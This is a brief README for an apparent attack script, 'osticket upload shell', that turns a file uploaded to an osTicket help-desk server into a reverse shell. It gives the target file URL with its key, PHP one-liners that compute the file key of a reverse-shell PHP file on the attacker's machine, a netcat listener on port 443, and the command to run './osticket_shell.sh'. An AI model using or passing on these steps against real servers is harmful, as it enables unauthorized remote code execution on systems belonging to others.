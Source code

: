 # osticket upload shell

## osticket upload file to reverse shell

* After uploading file
	* `http://target/file.php?key=t4hjgruq3xmgvta0gr8vm9nf5hjyykfui&expires=111111400&signature=f03c2714xxd8f914xxh6de56bd96xx147646683&id=17`

* copy key
	* `t4hjgruq3xmgvta0gr8vm9nf5hjyykfui`

* File key
	* `secrule@ubuntu:~$ php -a `                                  
	* `php > $sha1 = base64_encode(sha1_file('/opt/reverse-shell.php', true));` < path shell | Attacker machine
	* `php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));`                                                               
	* `output: rUQ3xMGvtA0sn8vM9nf5OQdkFuI`

* listen netcat
	* `nc -lvp 443`

# Usage
`./osticket_shell.sh`
